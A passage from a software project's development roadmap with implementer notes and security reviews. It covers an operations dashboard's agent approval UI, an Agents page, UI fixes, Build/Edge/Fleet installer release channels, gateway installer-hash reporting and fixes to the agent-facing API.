`call_service` call. That is fine at this scale. If it shows up in a
profile, cache the result per request.

## Chunk X3 — Integrations page and agent policy modal pass · slug `integrations-ui` · dashboard UI · after F27

### Goal

The operator asked for a pass over the **Integrations** page and the **agent policy modal** (the per-integration approval controls). Since F10's P2, an `ungated` override is silently ignored for `always_gate` tools. F27 adds allowances, and the destructive word list is widening. The screens should say plainly what will ask and what will not. This is the Rowana case: a toggle said "Ungated", and the call still asked.

### Design (to be written after F27's design is signed off)

* **Agent policy modal:**
  * per integration, show what each choice really does for this agent: "asks for every write", "asks for destructive writes", or "runs";
  * mark the tools where `ungated` has no effect (`always_gate`) and link to that tool's allowances;
  * no control may offer something the engine ignores. Hide or disable `Ungated` for an always-gated tool, with the reason.
* **Integrations page:**
  * each integration shows its `gate_mode` in words, its count of `always_gate` tools, and the number of live allowances and profiles that use it;
  * a "what asks" preview lists the tools and whether each one asks under the current mode, using the same function as `run_tool` (no second copy of the rule).
* **Copy:** one short explanation, shared by the modal and the page, of gate mode, always-gate, an agent override and allowances, and of which one wins.
* **Tests:** the preview matches `run_tool`'s decision for every seeded tool under both modes, and the modal never renders an `Ungated` that would be ignored.

The feature reviewer walks both screens with the operator before the design is written (see `RELEASE_TESTS.md`, to be added).

---

## Chunk X4 — Agents page; Controls becomes Command policy · slug `agents-page` · dashboard UI · no semantics change

### Goal

Everything about one agent sits in one place. Today it is spread over
Settings (tokens and the policy modal), Controls (the web-fetch allowlist)
and, since `fix/agent-ssh-hosts`, the modal's SSH tab. Integrations keeps
onboarding and tool configuration only.

### Scope

* **Agents** in the main navigation (next to Inventory and Runbooks).
* **List:** one row per token. It shows the name, active/revoked, last used,
  and a summary: tools (all or N), rate limit, SSH (off, N gateways or any, plus
  the mode), and web fetch (on or off).
* **Detail**, with sections that save through the **existing** endpoints:
  * Token: create, revoke and delete, moved from Settings, which keeps a link.
  * Tools, Rules (argument rules, approval and rate limit), SSH and Advanced:
    the current modal's tabs.
  * Web: the per-agent web-fetch allowlist, moved from Controls through the
    same endpoint, so `_sync_web_fetch_access` still runs.
  * Activity (read-only): the last 20 requests and integration calls, and
    the agent's open sessions, linked to History.
* **Controls → Command policy.** Rename the navigation item and the page
  title. After the web-fetch move, the page holds only the fleet-wide SSH
  command rules: the exact and regex allowlists, the blocklist and the tester.
  "SSH allowlist" would undersell the blocklist. Leave a one-line pointer
  where the web section was. The view id may stay `controls`; deep links
  keep working.
* **Save isolation:** saving one section never resets another. There is a
  test both ways (Tools ↔ SSH, Tools ↔ Web).
* **Layout:** no horizontal scroll at phone width or at 100% zoom on a
  1440 px viewport.

**Out of scope:** what any setting means, new permissions, gateway scripts.
X3 (what each approval choice really does) builds on this page once F27 is
signed off; X4 does not change approval wording.

**Implementer notes (X4).**

* **Agents** is a new nav item next to Inventory and Runbooks, and a new
  `#view-agents`. The list is one row per token with name, active/revoked,
  last used, and four chips: tools (all or N), rate limit, SSH (off, N or any
  + mode) and web fetch (off or N domains). The token create box and the
  token list moved here from Integrations (in this codebase the tokens lived
  there, not in Settings; both Integrations and Settings now carry a
  one-line link to Agents).
* **Detail** (opening a row) holds: the token's identity and Revoke/Delete;
  the policy card; the per-agent web fetch panel; and Activity. The policy
  card is the old modal's card, moved into the page (`pol-card-paged`): the
  same rail and the same four panes (Tools, Rules, SSH, Advanced), the same
  field ids and the same loaders (`openAgentDetail` replaces
  `openAgentPolicy`, which stays as an alias). Each pane now ends with its
  own Save, and there is no modal left to close.
* **Save isolation.** The page sends one section at a time, and the endpoint
  now honours absent fields for every field, not only SSH: `AgentPolicyPayload`
  is all-optional and `set_agent_policy` reads the stored row for anything
  `None` (the SSH behaviour, extended). So Save tools cannot clear SSH, the
  rate limit, the argument rules or the web fetch policy, and Save SSH cannot
  clear tools. `[]` / `{}` still clear a list or a map explicitly. This is
  the one contract change; every existing caller sends all fields, and the
  older "an absent SSH field keeps the stored value" test still passes.
* **Web** is the existing `#wf-policy-widget` moved out of Controls, through
  the same `PUT /api/web-fetch-policies/<principal>` (so
  `_sync_web_fetch_access` still runs). Opening an agent points its
  principal select at that agent. Controls keeps a one-line pointer where
  the widget was.
* **Activity** is read-only: a new `GET /api/agents/{id}/activity` returns
  the agent's sessions (`sessions.agent`), its newest 20 requests (joined
  through those session ids) and its newest 20 proxied calls
  (`integration_calls.agent`). The page renders sessions with an "open" mark
  and a link into History (`setHistorySession` + `switchView('history')`);
  it writes nothing.
* **Controls → Command policy**: the nav label and the page title (the HUD)
  are renamed; the view id stays `controls`, so deep links keep working.
* **Layout:** measured in headless Chromium against the real stylesheet at
  1440×900 and 390×844: `document.scrollWidth == innerWidth` in both, no
  horizontal scroll, the policy rail wraps on a phone and the agent rows
  stack.
* **Tests:** `tests/test_x4_agents_page.py` (10) — Tools↔SSH, Tools↔Rules,
  SSH↔Tools, Tools↔Web and Web↔Tools isolation through the API, the activity
  endpoint's shape and 404, the nav rename, the single Agents view, and the
  per-section payloads the page sends.

`bash scripts/verify.sh`: `2849 passed, 26 skipped, 7 warnings in 581.80s
(0:09:41)`.

---

## Chunk X5 — UI fixes from the Release 1.2 test round · slug `ui-test-round` · dashboard UI

Found by the operator on 2026-11-12. These are small, independent fixes:

1. **Session modal:** a long conclusion overflows the modal. The body must
   scroll inside the card, and the footer (Confirm/Edit/Reject, the id)
   stays in the card.
2. **Plans on the Approvals view:** pending plans render **above** the
   starfield. They belong in the JIT list area, with the other pending items.
3. **Session modal "How approved" chips:** the zero-count chips (fleet lane,
   session override, host override, window, fleet run) are unreadable: dark
   text on dark fill. Use the muted text token for zero, and keep contrast at
   4.5:1 or above for every chip in both themes.
4. **Runbook modal:** too little contrast and separation. Give each step a
   clear card or rule with spacing, show the host as a readable label rather
   than faint grey, and make the outcome line visibly distinct from the
   command.
5. **Per-gateway freeze:** the operator could not find how to freeze one
   gateway and froze the fleet. Either add a Freeze control on the gateway row
   or details, if the engine supports a per-gateway freeze, or say in
   the freeze dialog that it is fleet-wide and where the per-gateway
   alternative is.
6. **Gateways table at 100% zoom** (Surface Laptop 7): the Modes and Actions
   columns are clipped. The table must fit, or scroll inside its own
   container, with Changes/Remove always reachable. Collapse the read-lane
   and capture selects into the details view if needed.

**Implementer notes (X5).**

1. The card is now header / `.session-modal-body` / `.session-modal-footer`.
   The body (conclusion, plan block, commands) scrolls with `min-height: 0`;
   the card is `overflow: hidden`; the id row is a pinned footer outside the
   scroll area, and opening a session resets the body to the top. Confirm /
   Edit / Reject travel with the conclusion inside the body and stay inside
   the card.
2. The plans widget moved out of the top of the feed and into
   `#jit-pending-widget`, after `#jit-tickets`: the same area as the pending
   requests, below the starfield and the queue, as a ruled section
   (`#view-home .plans-in-jit`) rather than a second card over the sky. No
   fetch or endpoint changed.
3. The chip had the bucket's **solid fill** (`appr-<key>` is a legend
   swatch), so the label sat at 2.29:1 on the worst bucket and zero chips
   were worse with the old 45% opacity. The colour is a 6px dot now, the chip
   is ink on the surface: `--text-dim` 6.35:1, zero uses `--text-muted`
   5.58:1 on `--bg-surface` (6.06:1 on `--bg-base`). There is no light
   theme in the stylesheet; the token check and a computed-contrast test pin
   the floor.
4. Each `.rb-step` is a card (`--bg-base`, hairline, amber left rule, 8/10
   padding, 10px gap); the host is a mono chip in `--text-main` on
   `--bg-stripe` (11.7:1) instead of `--text-faint` (3.1:1); the outcome/note
   line gets its own dashed rule, `--text-dim` and italic, so it cannot be
   read as part of the command.
5. The engine has **no per-gateway freeze** (`/api/freeze` sets one fleet
   flag that every poller mirrors to `/etc/eshu-freeze`), so the dialog now
   says it is fleet-wide, that there is no per-gateway freeze, and that the
   alternative is on the gateway's own row (Zero-Trust, or Remove). The
   Gateways page carries the same one-line pointer above the table.
6. Nine columns were rendered under `colspan="8"` fallbacks; both are 9 now.
   The right-edge mask is removed for this table and the Actions column is
   `position: sticky; right: 0`, so Changes/Remove stay reachable while the
   table scrolls inside `.table-wrap`. The read-lane and capture selects are
   a `<details>` disclosure whose summary reads `RL off · tail`; the selects
   are unchanged inside it.

Verified at 1440×900 in headless Chromium against the real stylesheet:
`document.scrollWidth == 1440`, `.table-wrap` 1136 client / 1338 scroll, the
Actions cell pinned at 1251–1408. Tests: `tests/test_x5_ui_fixes.py` (6
tests: contrast, modal order/overflow, plans placement, runbook card rules,
freeze copy, table columns/sticky/disclosure).

`bash scripts/verify.sh`: `2845 passed, 26 skipped, 8 warnings in 581.93s
(0:09:41)`.

**Regression fix (X5-r, `fix/plans-widget-visible`, 2026-11-13).**

Deployed 21:0x on 2026-11-12: session plans stopped appearing. The endpoint
returned them and the page polled, but X5 had put the plans widget after the
whole empty state inside the borderless pending widget. With no JITs the empty
state (starfield + headline + sessions) is taller than a laptop viewport, so the
card opened below the fold — and on a phone even its Approve button was outside
the viewport, so no plan could be approved and probes/plans stayed blocked.
Measured before the fix at 1440×900: widget top 744px, Approve at 921px.

The widget is now placed in the pending flow by `renderJitTickets`: it is moved
into `#cc-plans-slot-queue` (immediately under `#cc-queue`) when something is
waiting, and into `#cc-plans-slot-idle` (under the headline/sub, before the
ticker, attention strip and recent sessions) when idle. The widget is captured
before the empty state is re-rendered and re-appended, and `renderPlans()` runs
after the move; the slot hides with the widget. X5's intent is unchanged: the
card is still inside the pending widget, below the starfield. The plan section
header is restored — `.widget.flat .widget-header` was hiding it.

Verified in headless Chromium against the real stylesheet and app, at 1440×900
and 390×844, for one proposed plan with zero JITs and with one pending JIT: the
card and its Approve button are fully inside the viewport, `elementFromPoint` at
the button's centre returns the button, the card does not intersect the
starfield, and its DOM position is queue → plan → recent sessions. Approve sits
at y≈758/669 (desktop) and 734/678 (phone) in the two states.

Tests: `tests/test_x5_plans_visible.py` (three structural checks plus the
browser render, which skips with a reason when node/playwright is absent;
`ESHU_PLAYWRIGHT_MODULES` points it at a node_modules that has playwright).

`bash scripts/verify.sh`: `2862 passed, 27 skipped, 8 warnings in 584.69s
(0:09:44)`. The browser render skips in the gate (no playwright on PATH,
+1 skip); run locally with `ESHU_PLAYWRIGHT_MODULES=/opt/dsh/pw/node_modules`
and it passes.

---

## Chunk X7 — real Build/Edge/Fleet installer channels · slug `installer-channels` · dashboard · **security sign-off** (changes what gateways download)

### Problem

Both `dashboard/static/eshu-gateway-install.sh` ("Build" in the panel, but
also the installer enrolment downloads) and
`dashboard/static/dev/eshu-gateway-install.sh` ("Edge") were committed and
generated byte-identical, and `/api/gateway-script`, which fleet updates and
uninstall download, served the committed source file. So:

* every dashboard deploy overwrote all three: Build always equalled Edge, and
  the panel told the operator nothing;
* **the installer the fleet installs changed on every dashboard deploy**,
  without Deploy to Fleet. Promote did not gate anything;
* Deploy to Fleet and Rollback wrote into the committed source file, leaving
  the live checkout dirty (the deploy helper reset part of it before pulling).

### Design

| Channel | Bytes | Served at | Changes on |
|---|---|---|---|
| Build | `dashboard/eshu-gateway-install.sh` (generated, committed) | (not served) | a dashboard deploy |
| Edge | `installer-channels/edge.sh` | `/static/dev/eshu-gateway-install.sh` | Seed Edge (byte copy of Build) |
| Fleet | `installer-channels/fleet.sh` | `/static/eshu-gateway-install.sh`, `/api/gateway-script`, `/api/gateway-script-rollback` | Deploy to Fleet (byte copy of Edge; the old Fleet goes to `fleet.prev.sh`), Rollback (copy of `fleet.prev.sh`) |

* `core/installer_channels.py` owns the channels. The directory is
  `dashboard/installer-channels/` (gitignored; `ESHU_INSTALLER_CHANNELS`
  overrides it, which is how every test isolates it), created `0700`. Channel
  files are `0644`.
* **Outside the static mount, and outside git.** Outside the mount means
  explicit routes serve each URL. They are registered before the `/static`
  mount, so a stray pre-X7 file in `static/` is never served. Outside git
  means a deploy can't touch them and the running dashboard never dirties the
  checkout. The helper's `git checkout -- dashboard/static/dev/` is removed.
* **Atomic writes:** a temp file in the same directory, fsync, `chmod 0644`,
  `os.replace`. A failed write leaves the old file and no temp file.
* **Never a fallback:** a channel that is missing after initialisation is
  served as **503**, never as Build or as another channel. Installer
  responses carry `Cache-Control: no-store`.
* **First start (migration):** the channels are created once, recorded by
  the meta marker `installer_channels_v1`. Fleet and Edge start as Build,
  which is exactly what `/api/gateway-script` served before X7. Pre-X7 copies
  are never used (security answer 3). There is no `fleet.prev.sh`, so Rollback
  is unavailable until the first Deploy to Fleet (BP1). The pre-X7 files in
  `static/` (the `.bak` included) are deleted, since the static mount still
  served them. An `installer_channels_initialised` audit row records the
  hashes and the removals, and notes if Fleet differs from the last recorded
  promote hash. `deployed_golden_hash` is set to the Fleet hash. After the
  marker, nothing is ever re-created. The channel directory is forced to
  `0700` even if it already existed.
* **Promote and Rollback write nothing in the checkout.** Seed Edge and
  Deploy to Fleet record their times (`installer_edge_seeded_at`,
  `installer_fleet_promoted_at`).
* **`/api/dev/status`** returns `build_hash`, `edge_hash`, `fleet_hash` (the
  served file), `deployed_hash`, both timestamps and `pipeline_state`:
  `needs_seed` (Build ≠ Edge) → `ready_for_dev` → `dev_in_progress` (dev
  trigger set) → `ready_for_promote` (dev push done) → `clear` (Edge = Fleet).
  The panel shows each channel's own hash, with "seeded"/"deployed N ago".
* `gen_installer.py` writes Build only. `static/eshu-gateway-install.sh`,
  `static/dev/` and the `.bak` are untracked and gitignored, and the
  pre-commit check covers Build only.

### Operator-visible change

After the deploy that brings X7, the panel shows all three equal (channels
created from Build). From the next deploy that changes the installer on, the
panel shows "New Build available → Seed Edge", and the fleet keeps installing
the old Fleet until Deploy to Fleet.

### Tests

`tests/test_golden.py` (rewritten, 26): first start (from Build, from the
pre-X7 copies, one audit row, the differs-from-promote note); a simulated
deploy changes Build only, and all three URLs keep serving the old bytes;
seed, dev push, promote and rollback (bytes, hashes, timestamps, trigger,
the backup flag); promote never writes the checkout; 503 on a missing Fleet
or Edge on every URL, with no Build bytes; `no-store`; the route wins over a
stray static file; an atomic write failure leaves the old file and no temp;
mode 0644; the status shape. `tests/test_deploy_dashboard.py` (real git
remote): a deploy that changes Build pulls cleanly and leaves `edge.sh` and
`fleet.sh` byte-identical, with the channels not in `git status`.
`tests/test_installer.py`: only Build is tracked, the gitignore entries exist,
and the generator writes Build only.

### Open questions for security

1. The channel directory is under `dashboard/` (same owner as the DB). Is
   that fine, or should it move to a separate state directory?
2. `/static/eshu-gateway-install.sh.bak` used to be served by the static
   mount (it was a public copy of the previous installer). It now lives in
   the channel directory and is not served. Confirm nothing should serve it.
3. The migration trusts a pre-X7 copy on disk over Build. Both are the
   operator's own files, but say if you'd rather always start from Build.

---

### Security review (security reviewer, 2026-11-14, at `4d5f013`)

**Approved once BP1 is in.** The design is right. A dashboard deploy now
changes only Build. Edge changes only on Seed Edge, and Fleet only on
Deploy to Fleet or Rollback. Nothing writes the checkout.

Checked:
* **The routes.**
  * `/static/eshu-gateway-install.sh`, `/api/gateway-script` and
    `/api/gateway-script-rollback` serve Fleet.
  * `/static/dev/eshu-gateway-install.sh` serves Edge.
  * All four are registered before `app.mount("/static")`, with
    `no-store`.
  * A missing channel is 503 and never falls back to another channel.
  * The dev update URL from the policy resolves to the Edge route.
* **Writes.**
  * `mkstemp` in the channel dir, then `fsync`, then `os.replace`. A
    gateway never downloads half a file.
  * The files are `0644` in a `0700` dir.
  * Promote copies Fleet to `fleet.prev` before it replaces Fleet.
* **Seed, Promote and Rollback** keep their session check and audit rows,
  and the audit rows now carry the hashes.
* **`gen_installer.py`** writes Build only. The pre-commit check and the
  deploy helper no longer touch `static/`.

**BP1 (must): the migration must not make the old `.bak` the Rollback
target.**
* `ensure_initialised` copies `static/eshu-gateway-install.sh.bak` into
  `fleet.prev`.
* That file is whatever was golden before the last pre-X7 promote. Every
  deploy changed the fleet installer back then, so it is an installer of
  unknown age. It can be older than RR1, BE3, BE4 and the lockbox fixes.
* After the migration, the first Rollback would push it to every gateway
  as "the previous installer". It would silently downgrade the fleet's
  security fixes.
* Fix:
  * create no `fleet.prev` on migration, so Rollback stays unavailable
    until the first Deploy to Fleet;
  * then delete the legacy files (`static/eshu-gateway-install.sh.bak`, and
    any leftover `static/eshu-gateway-install.sh` or `static/dev/`) and
    record that in the same audit row.
* Test: a migration with a `.bak` on disk leaves `has_previous()` false and
  deletes the file.

**Answers to the open questions:**
1. **Where the channel dir lives:** `dashboard/` is fine, because
   `eshu.db` is there too.
   * The init marker is in the database and the channels are files, so
     they must be backed up and restored together. Say that in DEV_GUIDE.
     A restore of one without the other leaves the marker set and the
     channels missing, which is 503 everywhere. That fails closed.
   * Recovery today is Seed Edge, then Deploy to Fleet, and Deploy to
     Fleet also triggers a fleet-wide update. That is acceptable, but
     document it as the recovery path.
   * Also enforce `0700` when the dir already exists. `makedirs` sets the
     mode only when it creates the dir.
2. **The `.bak`:** yes, the static mount served it publicly before X7.
   After X7 it is ignored by git, but it is still on disk inside `static/`,
   and there is no route in front of it. So `/static/eshu-gateway-install.sh.bak`
   is still served until the file is deleted. BP1's cleanup closes this.
   The content has no secrets (the token is a placeholder), but an old
   installer should not stay downloadable.
3. **The migration source:** always start from Build.
   * The committed copies were byte-identical to Build (pre-commit
     enforced that).
   * On a real deploy, `git pull` deletes them before the restart, so the
     "pre-X7 copy" branch only ever picks up a copy that had been changed
     at runtime. That is exactly the unreviewed file to avoid.
   * Fleet := Build is also what `/api/gateway-script` already served, so
     the fleet sees no change at the deploy.

**BP2 (should, follow-up chunk): two more gateway-executed files still
follow Build.**
* `static/features/approved_windows.sh` is downloaded every poll cycle and
  run by the gateway as root.
* `static/fleet-runner.sh` is downloaded for every fleet command.
* Both are still served from the checkout, so a dashboard deploy still
  changes root-run code on every gateway without a promote.
* Either put them in the Edge and Fleet channels too (dev gateways get
  Edge's copy), or have the installer carry them so they change only with
  Fleet.
* Until then, the X7 note and DEV_GUIDE should say that these two are not
  gated by Deploy to Fleet.

#### Security re-read (2026-11-14, at `b0c8688`): BP1 approved; X7 can merge

* Edge and Fleet are created from Build only. The pre-X7 copies are never
  read.
* There is no `fleet.prev` on migration. `has_previous()` is false and
  `/api/dev/rollback` returns 404 until the first Deploy to Fleet; the
  test covers both.
* The three pre-X7 files and the empty `static/dev/` are deleted, and the
  audit row lists what was removed. So the static mount no longer serves
  an old installer.
* The channel dir is forced to `0700` on every start. DEV_GUIDE documents
  that the channels are backed up with `eshu.db`, the recovery path, and
  BP2 as not yet gated.

**Nits:**
* **A failed delete is never retried.** If a pre-X7 file can't be deleted,
  only the audit row says so. The marker is set, the delete is never tried
  again, and the static mount goes on serving the file. Either retry the
  delete on each start, or put explicit 404 routes in front of those three
  paths. The routes are cheaper, and they cover a stray copy that comes
  back later.
* **One audit note is now inaccurate.** "Fleet differs from the last
  recorded promote (…); it is the installer gateways were actually being
  served" no longer holds, because Fleet now comes from Build. Reword it
  to "Fleet set to Build; the last recorded promote was …".

## Chunk X8 — which installer each gateway runs · slug `gateway-installer-version` · dashboard + gateway · **security sign-off (gateway-side change)**

### Problem

Every gateway reports the *dashboard* version (`v0.1.0`), so the Gateways
table cannot say who runs Fleet, who runs Edge, who is on a Build and who is
behind. After X7 the three channels are real: Build changes on a deploy,
Edge on Seed Edge, Fleet on Deploy to Fleet. The fleet view should show that.

### Design

**1. The installer hashes itself.** At the start of install, reinstall and
update, the installer computes `sha256sum "$0"` and keeps the first 12 hex.
In every official flow the file is downloaded to a private temp and run as a
file (`bash "$T/eshu-install.sh"`), so `$0` is it. A manual `curl | bash`
install has no file to hash: the value stays empty and the badge reads
`unknown` (never a guess). The value is re-validated as lowercase 12-hex
before it is used.

**2. Reporting.**
* The installer writes `/etc/eshu-installer-hash` (root:root, 0644 — it is a
  hash of a public file, not a secret) so the logger can re-send it without
  the installer.
* Its `/api/register` body carries `installer_hash`.
* The poller re-registers after an update/rollback/dev update; it reads the
  file and includes the hash, so a successful update is visible immediately.
* `eshu-logger` reads the file each heartbeat and includes it, so a lost
  registration is repaired within 30 s and a changed file is noticed.

**3. Store.** `gateways.installer_hash` (TEXT, `''` when never reported) and
`gateways.installer_hash_changed_at` (INTEGER, 0), both additive migrations.
An unchanged value does not move the timestamp; a change does. Invalid input
is ignored and never clears a stored value (an old installer sends nothing;
an unknown future format must not make the badge lie).

**4. Channel, computed server-side.** `/api/gateways` returns
`installer_channel` for each row: `fleet` when the hash equals Fleet, else
`edge`, else `build`, else `outdated` when non-empty, else `unknown`. Fleet
wins over Edge (they are equal until the first promote), Edge over Build.
The comparison lives in one function so the table and the status agree.

`/api/dev/status` adds four counts: `on_fleet`, `on_edge`, `outdated`,
`unknown`. A gateway whose hash is exactly Build is not in any of the four
(the badge says `Build`); the sum can therefore be smaller than
`gateway_count`, and that is honest.

**5. UI.** The Gateways table shows the badge in the gateway's version line
(`v6.0.0 · Fleet`), not a new column. `outdated` shows the first six hex of
the gateway's hash (the full 12 are in the title, with when it changed), so
the row still fits at 100% zoom. The four-dot health legend already hides
below 1600 for the same reason.

**6. Compatibility.**
* An old gateway sends no `installer_hash`: register and heartbeat accept the
  field as optional, the stored value (or `''`) stays, and the badge is
  `unknown`.
* The register payload validates `^[0-9a-f]{12}$`; anything else is ignored.
* No endpoint, token or permission changes. The hash is display metadata: it
  is a self-report and is never consulted by a policy, approval or run
  decision.

**7. Security notes for the reviewer.**
* The file is a hash of a public installer, so 0644 is deliberate; it is
  root-owned and not writable by the gateway user.
* The installer never reads the file back to make a decision; the dashboard
  never trusts the hash for anything but the badge/count.
* `$0` is only hashed when it is a readable regular file; a piped install
  reports nothing rather than hashing stdin.
* The gateway can lie about its hash. It is the same self-report as
  `version`, and it is display-only; say if you want it signed/attested
  instead (that would be a larger change).
* No new download, execution or channel write. The installer still installs
  the bytes it was run from.

**8. Tests.**
* `tests/test_x8_installer_hash.py`: store/validate/change timestamp; register
  with a valid hash, an old installer, and an invalid value; heartbeat
  updates; `/api/dev/status` counts for fleet/edge/build/outdated/unknown;
  the installer, poller and logger text (hash, file, register body).
* A UI assertion that the badge renders and the table still fits at 1440.
* The four installed copies: X7 generates Build only; after this change
  `gen_installer.py` writes Build, and Seed/Deploy copy it.

**9. Open questions for security.**
1. Is a self-reported hash acceptable for display only, or do you want the
   dashboard to refuse a hash that does not match a known channel (it would
   make `outdated` unrepresentable)?
2. Should the hash travel signed (the gateway token already authenticates the
   register/heartbeat), or is the token the only integrity you need?
3. Is 0644 on `/etc/eshu-installer-hash` fine, or should it be 0640
   root:eshu-gateway like the session key?
4. Should the four counts include the Build hash under `on_edge` (a Build
   gateway is not on Edge), or stay as designed with Build uncounted?


### Security review (security reviewer, 2026-11-14, at `7ff6a3e`)

**Approved. No musts. One should (BR1).**

* **The hash is a display-only self-report, and stays that way.**
  * Register and heartbeat both bind `payload.ip` to the token's IP
    (`_resolve_gateway_token` and `_require_gateway`) before storing, so a
    gateway can only label itself.
  * Anything that isn't 12 hex is ignored, on both the installer and the
    dashboard side, and never clears a stored value.
  * No policy, gate or promote decision reads `installer_hash`. Keep it
    that way: a compromised gateway can report any value. Put a text
    check on that rule, for example that the column appears only in
    `db/gateways.py` and the two display paths.
* **The installer side.**
  * `$0` is hashed only when it is a readable file, and the value is
    checked against 12 hex.
  * `/etc/eshu-installer-hash` is written by temp file and `mv` as root,
    and the logger re-checks the charset before it sends.
  * The register and heartbeat bodies gain only that hex value, and no
    secret joins the `-d` body.

**Answers:**
1. **Sign the hash?** No. Any key the gateway could sign with lives on the
   gateway, so a compromised gateway signs whatever it likes. A signature
   would add only the appearance of proof. Keep the badge's tooltip honest:
   "reported by the gateway".
2. **0640?** 0644 is fine. It is the hash of a file the dashboard serves
   to anyone, so it is not secret. What matters is that the gateway user
   can't write it (root:root), and that's already the case.
3. **Build under `on_edge`?** No. Count it on its own as `on_build`.
   * A gateway on Build-but-not-Edge is running an installer nobody seeded
     or reviewed through the channel flow, and that's the one an operator
     most needs to see.
   * Today `dev_status` drops `build` into no bucket at all, so the counts
     don't add up to the fleet.

**BR1 (should):** add `on_build` to `installer_counts` and `/api/dev/status`,
and give Build-but-not-Edge its own warning colour in the badge. Test that
the five buckets add up to the gateway count.

**BR1 round (implementer notes, 2026-11-14).** Taken:
* `installer_counts` and `/api/dev/status` now carry `on_build` (Build but
  not Edge, i.e. an installer nobody seeded or reviewed through the channel
  flow), with its own warning colour in the badge. The five buckets always
  add up: the test seeds one gateway per bucket and asserts the sum equals
  `gateway_count`.
* The badge title says the value is **reported by the gateway**, and a
  Build badge adds "on Build, not seeded or reviewed through the channels".
* `tests/test_x8_installer_hash.py` scans `dashboard/**/*.py`: `installer_hash`
  may appear only in `main.py`, `db/gateways.py` and the `database.py`
  re-export; nothing under `core/` (policy, gating, checks, tickets,
  channels) reads it. A compromised gateway can report any value, and the
  badge is the only consumer.
* The dashboard branch is rebased onto X7's BP1 (`b0c8688`; the branch tip
  `45a59c34` adds only the re-read notes).
`bash scripts/verify.sh`: `3048 passed, 26 skipped, 7 warnings in 660.28s
(0:11:00)` (4 more: the five-bucket sum, the warning colour, the tooltip and
the display-only scan).

## Chunk X6 — agent API fixes from the Release 1.2 test round · slug `agent-api-round` · dashboard

From the agent's test report of 2026-11-12, triaged by the feature reviewer.
The labels are the report's (D1–D18). Live details stay outside the repo.

**Already fixed, not in X6:**
* D1, part 1: `ssh_exec`/`probe_result` ran on the event loop, so the
  gateway's callback timed out. Fixed in `6a48ee1` and deployed.
* D1, part 2: the poller's ticket-poll URL was malformed (`WC="0\n0"`), so no
  approved ticket ever reached the lockbox. Fixed in `fix/poller-ticket-poll`
  (`f0affc7`); this is gateway-side and needs security's sign-off and a rollout.

**Not defects:**
* D2: the "non-gateway" host was in fact a registered gateway.
* D5: `wait=true` did wait 60 s; the ticket never reached `consumed` (D1).
* D17: a disabled `ha_host_reboot` is withheld from the registry. This is
  correct; the T-HA-4 wording is fixed.

**X6 scope (dashboard only):**
1. **D3/D4:** `check_request(id)` without `session_id` must not say "not
   found" for a request that exists. Say `session_id required`, or infer it
   from the transport's bound session as other tools do. `check_approval`'s
   `wrong_namespace` hint names the full call.
2. **D6:** `probe_result` returns `pending`, never `refused`, while a ticket
   is waiting, and its next-step text names `probe_result`. The `ssh_exec`
   pending hint and `check_request`'s `approved` text agree: re-run only at
   `consumed`. A re-run while the matching request is still `approved`
   returns `pending` with the same id instead of minting a duplicate.
3. **D7:** a plan replaced by a newer proposal reads `superseded` (with the
   new plan id) in `check_plan` and `probe_result`, not `not_found`. Keep
   the row with status `superseded` instead of deleting it.
4. **D8:** `session_summary` counts the session's MCP and integration calls
   (`mcp_calls`) and plan-claimed requests (`by_approval.plan`). Add a test
   with one of each.
5. **D9:** probes accept a gateway hostname, as `ssh_exec` does. It is
   resolved to the gateway's IP at planning time and the IP is stored (in
   line with security's BF2: IP-only matching).
6. **D10:** the `diagnose_container` description and the agent manual name
   the `container` parameter (a vmid or a Docker name), with an example.
7. **D11:** the inner target (F7) is shown on the approval card and returned
   by `check_request` for `pct exec <vmid> -- …`. A test request of exactly
   that shape recorded no inner target; find out why.
8. **D12:** `ha_addons` and `ha_backups` return `{}` while the other
   Supervisor reads work. Find the unwrap bug (Supervisor wraps the payload in
   `data`) and add a test with a recorded response shape.
9. **D14:** `session_conclude` gets a `title`, which a promoted runbook uses
   instead of the cut summary. List fields are typed as arrays, and the
   `too_many_*` errors state the limit.
10. **D15:** a confirmed conclusion must not block a later
    `session_conclude`. The new one is added as a draft for the operator.
11. **D16:** `get_runbook` without `runbook_id` is a validation error, not
    `not_found`. `whereis <vmid>` drops the nameless duplicate guest stub.
12. **D18:** `dns_check` returns `status: error`, not `ran`, when the lookup
    failed. Separately, find out why the Pi-hole inventory sources fail
    with `bad_json`; it is probably the v6 response shape.

**Later, gateway-side:** D13 (a plan-granted command says "covered by plan
#N" instead of printing the human-approval stream) goes with the next gateway
change, with security sign-off.

**Implementer notes (X6 part 1, 2026-11-12).** Branch
`fix/x6-agent-api-round` from `feature-roadmap` (`a9d3572`). Part 1:

* **D3/D4.** `check_request(id)` with no session on the connection now returns
  `session_id_required` (with the id) for an owned request, not `not found`;
  an explicit wrong session is still `not found`, and an unowned row is still
  readable as before. `check_approval`'s `wrong_namespace` hint names the full
  call: `check_request(request_id=N, session_id="<id>")`.
* **D6.** `probe_result` returns `pending` (with a `next_step` naming
  `probe_result`) while every ticket of an approved plan is still in flight,
  instead of `refused`; it caches the digest once something runs. A re-run
  while an identical `approved` row is still being delivered returns that row's id
  (`reused: true`) instead of filing a duplicate card. Per security's BK5
  ruling (below) only a **signed** caller (both `agent` and `session_id` set)
  reuses an approved row; an unsigned re-run always gets a fresh card, because
  every unsigned caller of the same bytes on that host would otherwise match
  it. The reuse sits after every refusal in `receive_request`, and its expiry
  boundary is the poll path's (`expires_at > now`).
* **D7.** A proposal replaced by a newer one is kept as `superseded` with a
  `superseded_by` id (new column, additive migration) instead of deleted.
  `check_plan` and `probe_result` return `status: superseded` and the new id.
* **D8.** `session_summary` already counted `mcp_calls` and `by_approval.plan`
  through the one bucket mapping; a test now inserts one integration call and
  one `session-plan:` request and asserts both.
* **D9.** Probe hosts accept a gateway hostname as `ssh_exec` does; it is
  resolved at validation time and the plan stores the gateway's **IP** (BF2:
  IP-only matching). An ambiguous hostname is refused.
* **D10.** The `diagnose_container` description names the `container`
  parameter (docker name or numeric vmid) and shows one example of each.
* **D16, part a.** `get_runbook()` without an id is `validation_error` with the
  parameter named, not `not_found`; an unknown id is still `not_found`.

**X6 part 2 (same branch).**

* **D11.** The inner target is now recorded on the rows that missed it: the
  `window-approved`, `window-rejected` and `fleet-run` history rows (the
  approval and JIT paths already had it), and `check_request` returns
  `inner_target`. The card already rendered the chip; it was the row that was
  empty for those paths. The parsing itself handles every `pct exec <vmid> --`
  shape tested, so the "no inner target" report was a missing call site, not
  a parser bug.
* **D12.** `/addons` and `/backups` wrap their list in `data`; the shaper now
  unwraps `data[<shape>]` (and a bare `{<shape>: [...]}`) for those two, and
